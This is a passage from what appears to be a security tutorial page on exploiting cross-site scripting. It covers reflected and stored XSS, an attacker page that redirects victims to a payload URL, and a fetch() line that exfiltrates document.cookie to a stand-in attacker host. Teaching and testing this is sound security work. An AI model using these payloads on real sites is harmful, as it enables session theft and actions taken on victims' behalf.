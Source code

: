 ## Exploitation

Making an `alert()` pop up is cool, but to show the impact it might be necessary to exploit what an XSS or JavaScript execution gives you. The summary is that you can do almost everything a user can do themselves, but do this for them. You can click buttons, request pages, post data, etc. which open up a large field of impact, depending on what an application lets the user do.&#x20;

### From another site

The _Cross-Site_ in XSS means that it should be exploitable from another malicious site, which can then perform actions on the victim's behalf on the target site. It is always a good idea to test exploits locally first with a simple web server like `php -S 0.0.0.0:8000`, and when you need to exploit something remotely it can be hosted temporarily with a tool like [ngrok](https://ngrok.com/), or permanently with a web server of your own.&#x20;

The easiest is **Reflected XSS**, which should trigger when a specific URL is triggered. If someone visits your page, you can simply redirect them to the malicious URL with any payload to trigger the XSS:

{% code title="Example attacker page" %}
```html
<script>
    location = "https://target.com/endpoint?xss=<style onload=alert()>"
</script>
```
{% endcode %}

{% hint style="info" %}
Note that [URL Encoding](https://gchq.github.io/CyberChef/#recipe=URL\_Encode\(true\)\&input=PHN0eWxlIG9ubG9hZD1hbGVydCgpPg) might be needed on parameters to make sure special characters are not part of the URL, or to simply obfuscate the payload
{% endhint %}

For **Stored XSS**, a more likely scenario might be someone else stumbling upon the payload by using the site normally, but if the location is known by the attacker they can also redirect a victim to it in the same way as Reflected XSS as shown above.&#x20;

Some exploits require more complex interaction between the attacker and the target site, like `<iframe>`'ing (only if [#content-security-policy-csp](cross-site-scripting-xss.md#content-security-policy-csp "mention") and `X-Frame-Options` allows) or opening windows (only when handling user interaction like pressing a button with `onclick=`).&#x20;

### Stealing Cookies

In the early days of XSS, this was often the target vector for exploitation, as session cookies could be stolen and exfiltrated to an attacker to later impersonate them on demand. This is done with the `document.cookie` variable that contains all cookies as a string. Then using `fetch()` a request containing this data can be made to the attacker's server to read remotely:

```javascript
fetch("http://attacker.com/leak?cookie=" + document.cookie)
```

Pretty often, however, modern frameworks will set the `httpOnly` flag on cookies which means they will **not** be available for JavaScript, only when making HTTP requests. This `document.cookie` variable will simply not contain the cookie that the flag is on, meaning it cannot be exfiltrated directly. But the possibilities do not end here, as you can still **make requests** using the cookies from within JavaScript, just not directly read them.&#x20;
